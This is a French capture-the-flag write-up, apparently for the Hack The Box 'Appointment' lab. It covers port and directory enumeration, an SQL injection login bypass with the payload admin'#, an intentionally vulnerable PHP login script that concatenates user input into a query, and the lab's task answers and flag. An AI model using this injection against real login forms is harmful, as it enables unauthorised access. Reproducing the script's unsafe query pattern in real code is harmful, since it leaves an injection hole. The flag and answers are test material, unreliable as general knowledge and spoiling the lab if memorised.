


# APPOINTMENT


#databases #apache #mariadb #PHP #SQL #reconnaissance #SQLinjection

## 1. Méthodologie

On lance un `nmap -sV -p- IP_cible` :

```
└──╼ [★]$ nmap -sV -p- 10.129.167.140
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 07:12 CST
Nmap scan report for 10.129.167.140
Host is up (0.0097s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

Un serveur web tourne sur le port 80. Nous allons de nouveau énumérer les répertoires du serveur web avec `gobuster dir -u http://IP_cible/ -w /usr/share/dirb/wordlists/common.txt` 

```
└──╼ [★]$ gobuster dir -u http://10.129.167.140/ -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.167.140/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/css                  (Status: 301) [Size: 314] [--> http://10.129.167.140/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.167.140/fonts/]
/images               (Status: 301) [Size: 317] [--> http://10.129.167.140/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 313] [--> http://10.129.167.140/js/]
/server-status        (Status: 403) [Size: 279]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.167.140/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
Les status 4.3 ne répondent pas, les status 301 sont des redirections et les status 200 aboutissent. Il serait intéressant ici de se connecter sur l'interface web de la page index.php qui existe. Une page de login apparait:



Il faut réussir à injecter une commande pour qu'elle soit interprété par le service: une injection SQL. Pour se faire on entre en utilisateur la ligne suivante: `admin'#`



On arrive donc à passer en on récupère le flag.

## 1.1 Explication de l'injection SQL dans notre cas présent:

Voici le script en SQL qui est utilisé pour l'authentification:

```
<?php
mysql_connect("localhost", "db_username", "db_password"); # Connection to the SQL 
Database.
mysql_select_db("users"); # Database table where user information is stored.
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'"; 
# Query for user/pass retrieval from the DB.
$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.
$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.
if ($count==1){
  # Checks if there's at least 1 result, and if yes:
  $_SESSION['username'] = $username; # Creates a session with the specified $username.
  $_SESSION['password'] = $password; # Creates a session with the specified $password.
  header("location:home.php"); # Redirect to homepage.
}

else { # If there's no singular result of a user/pass combination:
  header("location:login.php");
  # No redirection, as the login failed in the case the $count variable is not equal to 1, 
HTTP Response code 200 OK.
}
?>
```
`admin'#`

On termine le login par une apostrophe autorisant le script à chercher un ID pour admin. En ajoutant le #, on commente le reste de la ligne du script permettant ainsi au script de ne chercher qu'un utilisateur nommé "admin" sans s'occuper de son mot de passe. Cet utilisateur a existé donc le login est autorisé. Si celui-ci n'existe pas, il faut essayer avec d'autres login par défaut. Etant donné que dans le login nous demandons au script d'exclure la partie mot de passe, on peut rentrer ce qu'on veut dans le champ "password", cela ne sera pas pris en compte car la requête exclut cette partie de correspondance. Et le script retournera une valeur de "1" qui signifie positif si l'utilisateur a existé/existe.

Voilà donc à quoi ressemble notre requête modifiée:


On indique bien au script de ne considérer que le login, qui est ici "admin" et de commenter le reste donc de ne pas prendre en compte la correspondance de mot de passe.


## 2. Questions

### Task 1

What does the acronym SQL stand for?

```
Structured query language
```

### Task 2

What is one of the most common type of SQL vulnerabilities?

```
SQL injection
```

### Task 3

What is the 2021 OWASP Top 10 classification for this vulnerability?

```
A03:2021-injection
```

### Task 4

What does Nmap report as the service and version that are running on port 80 of the target?

```
Apache httpd 2.4.38 ((Debian))
```

### Task 5

What is the standard port used for the HTTPS protocol?

```
443
```

### Task 6

What is a folder called in web-application terminology?

```
directory
```

### Task 7

What is the HTTP response code is given for 'Not Found' errors?

```
404
```

### Task 8

Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

```
dir
```

### Task 9

What single character can be used to comment out the rest of a line in MySQL?

```
#
```

### Task 10

If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?

```
congratulations
```

### Flag

```
e3d0796d002a446c0e622226f42e9672
```
